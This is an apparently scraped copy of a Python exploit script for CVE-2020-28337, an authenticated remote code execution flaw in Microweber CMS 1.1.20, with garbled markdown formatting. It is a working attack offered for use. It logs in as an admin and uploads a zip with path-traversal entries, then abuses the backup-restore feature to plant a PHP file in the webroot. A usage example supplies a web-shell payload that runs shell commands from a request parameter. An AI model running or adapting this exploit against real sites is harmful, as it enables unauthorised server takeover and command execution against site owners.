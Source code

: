 EXP
---

    # Exploit Title: Microweber CMS 1.1.20 - Remote Code Execution (Authenticated)
    # Date: 2020-10-31
    # Exploit Author: sl1nki
    # Vendor Homepage: https://microweber.org/
    # Software Link: https://github.com/microweber/microweber/tree/1.1.20
    # Version: <=1.1.20
    # Tested on: Ubuntu 18.04
    # CVE : CVE-2020-28337
    #
    # Example usage with default phpinfo() payload:
    #     ./microweber_rce.py \
    #         --hostname "http://microwebertest.com" \
    #         --username "admin" \
    #         --password "password123"
    #
    #
    # Example usage with custom payload (shell_exec):
    #     ./microweber_rce.py \
    #         --hostname "http://microwebertest.com" \
    #         --username "admin" \
    #         --password "password123" \
    #         --payload '<?php if (isset($_REQUEST["fexec"])) {echo "<pre>" . shell_exec($_REQUEST["fexec"]) . "

";} ?\>'

1.  2.  Notes:
3.  -   SSL verification is disabled by default

4.  -   If for some reason the --target-path "/userfiles/cache

1.  !/usr/bin/python3

1.  /" doesn't work, "/userfiles/modules/" is a good one too.
2.  3.  4.

import argparse import re import requests import sys import zipfile

from io import BytesIO

1.  Disable insecure SSL warnings

requests.packages.urllib3.disable_warnings()

class Microweber():

`   def __init__(self, baseUrl, proxies=None):`
`       self.baseUrl = baseUrl`
`       self.proxies = proxies`
`       self.cookies = None`

`       self.loginUrl = "/api/user_login"`
`       self.uploadUrl = "/plupload"`
`       self.moveZipToBackupUrl = "/api/Microweber/Utils/Backup/move_uploaded_file_to_backup"`
`       self.restoreBackupUrl = "/api/Microweber/Utils/Backup/restore"`

`       self.targetPath = "/userfiles/cache/"`
`       self.targetFilename = "payload.php"`
`       self.zipPayloadName = "payload.zip"`

`   def makePostRequest(self, url, data=None, files=None, headers=None):`
`       return requests.post(self.baseUrl + url,`
`           data=data,`
`           files=files,`
`           headers=headers,`
`           cookies=self.cookies,`
`           proxies=self.proxies,`
`           verify=False`
`       )`

`   def makeGetRequest(self, url, params=None):`
`       return requests.post(self.baseUrl + url,`
`           params=params,`
`           cookies=self.cookies,`
`           proxies=self.proxies,`
`           verify=False`
`       )`

`   def login(self, username, password):`
`       res = self.makePostRequest(self.loginUrl, data={`
`           "username": username,`
`           "password": password`
`       })`

`       if res.status_code == 200 and 'success' in res.json() and res.json()['success'] == "You are logged in!":`
`           print(f"[+] Successfully logged in as {username}")`
`           self.cookies = res.cookies`
`       else:`
`           print(f"[-] Unable to login.  Status Code: {res.status_code}")`
`           sys.exit(-1)`

`   def createZip(self, path=None, filename=None, payload=None):`
`       # In-memory adaptation of ptoomey3's evilarc`

`   # `[`https://github.com/ptoomey3/evilarc`](https://github.com/ptoomey3/evilarc)

`       if payload == None:`
`           payload = "`<?php phpinfo(); ?>`"`

`       zd = BytesIO()`
`       zf = zipfile.ZipFile(zd, "w")`

`       # The custom Unzip class uses a path under the webroot for cached file extraction`
`       # /storage/cache/backup_restore/`<md5 hash>`/`
`       # so moving up 4 directories puts us at the webroot`
`       zf.writestr(f"../../../..{path}{filename}", payload)`
`       zf.close()`
`       return zd`

`   def uploadZip(self, zipData):`
`       # Upload the zip data as a general file`

`       res = self.makePostRequest(self.uploadUrl,`
`           headers={"Referer": ""},`
`           data={`
`               "name": self.zipPayloadName,`
`               "chunk": 0,`
`               "chunks": 1`
`           },`
`           files={"file": (self.zipPayloadName, zipData.getvalue(), "application/zip")}`
`       )`

`       if res.status_code == 200:`
`           print(f"[+] Successfully uploaded: {self.zipPayloadName}")`
`           j = res.json()`
`           print(f"[+]     URL: {j['src']}")`
`           print(f"[+]     Resulting Filename: {j['name']}")`
`           self.zipPayloadName = j['name']`
`       else:`
`           print(f"[-] Unable to upload: {self.zipPayloadName} (Status Code: {res.status_code})")`
`           sys.exit(-1)`

`   def getAbsoluteWebRoot(self):`
`       # Determine the webroot using the debug output and the DefaultController.php path`
`       res = self.makeGetRequest("", params={`
`           "debug": "true"`
`       })`

`       if res.status_code != 200:`
`           print(f"[-] Unable to collect debug information.  Bad server response: {res.status_code}")`
`           sys.exit(-1)`

`       target = "src/Microweber/Controllers/DefaultController.php"`
`       m = re.findall('([\/\w]+)\/src\/Microweber\/Controllers\/DefaultController\.php', res.text)`
`       if len(m) == 1:`
`           return m[0]`
`       else:`
`           print(f"[-] Unable to determine the webroot using {target}.  Found {len(m)} matches")`

`   def moveZipToBackup(self):`
`       # Move the uploaded zip file into the backup directory`

`       webRoot = self.getAbsoluteWebRoot()`
`       hostname = self.baseUrl.split("//")[1]`

`       src = f"{webRoot}/userfiles/media/{hostname}/{self.zipPayloadName}"`
`       res = self.makeGetRequest(self.moveZipToBackupUrl, params={`
`           "src": src`
`       })`

`       if res.status_code == 200 and 'success' in res.json() and res.json()['success'] == f"{self.zipPayloadName} was uploaded!":`
`           print(f"[+] Successfully moved {self.zipPayloadName} to backup")`
`       else:`
`           print(f"[-] Unable to move zip to backup ({res.status_code})")`
`           sys.exit(-1)`

`   def restoreBackup(self, filename):`
`       # With the zip file in the backup directory, 'restore' it, which will cause it to be extracted unsafely`

`       res = self.makePostRequest(self.restoreBackupUrl, data={`

`      "id": filename`
`       })`

`       if res.status_code == 200 and "Backup was restored!" in res.text:`
`           print(f"[+] Successfully restored backup {filename}")`
`       else:`
`           print(f"[-] Unable to restore backup {filename}")`
`           sys.exit(-1)`

`   def exploit(self, payload=None):`
`       zipData = m.createZip(self.targetPath, self.targetFilename, payload=payload)`
`       m.uploadZip(zipData)`
`       m.moveZipToBackup()`
`       m.restoreBackup(self.zipPayloadName)`

`       print(f"[+] Successfully uploaded payload to {self.targetFilename}!=")`
`       print(f"[+]     Visit: {self.baseUrl}{self.targetPath}{self.targetFilename}")`

if __name__ == "__main__":

`   parser = argparse.ArgumentParser()`
`   parser.add_argument("--hostname", required=True, dest="hostname", help="Microweber hostname with protocol (e.g. `[`http://microwebertest.com`](http://microwebertest.com)`)")`
`   parser.add_argument("--http-proxy", required=False, dest="http_proxy", help="HTTP Proxy (e.g. `[`http://127.0.0.1:8000`](http://127.0.0.1:8000)`)")`
`   parser.add_argument("--username", "-u", required=True, dest="username", help="Username of administrative user")`
`   parser.add_argument("--password", "-p", required=True, dest="password", help="Password of administrative user")`
`   parser.add_argument("--payload", required=False, dest="payload", help="Payload contents.  Should be a string of PHP code.  (default is phpinfo() )")`

`   # Uncommon args`
`   parser.add_argument("--target-file", required=False, dest="target_file", help="Target filename of the payload (default: payload.php")`
`   parser.add_argument("--target-path", required=False, dest="target_path", help="Target path relative to webroot for the payload (default: /userfiles/cache/")`
`   parser.add_argument("--zip-name", required=False, dest="zip_name", help="File name of tmp backup zip")`
`   args = parser.parse_args()`

`   proxies = None`
`   if args.http_proxy:`
`       proxies = {`
`           "http": args.http_proxy`
`       }`

`   m = Microweber(args.hostname, proxies=proxies)`

`   if args.target_file:`
`       m.targetFilename = args.target_file`
`   if args.target_path:`
`       m.targetPath = args.target_path`

`   if args.zip_name:`
`       m.zipPayloadName = args.zip_name`

`   m.login(args.username, args.password)`
`   m.exploit(args.payload)`
`           `

</pre>
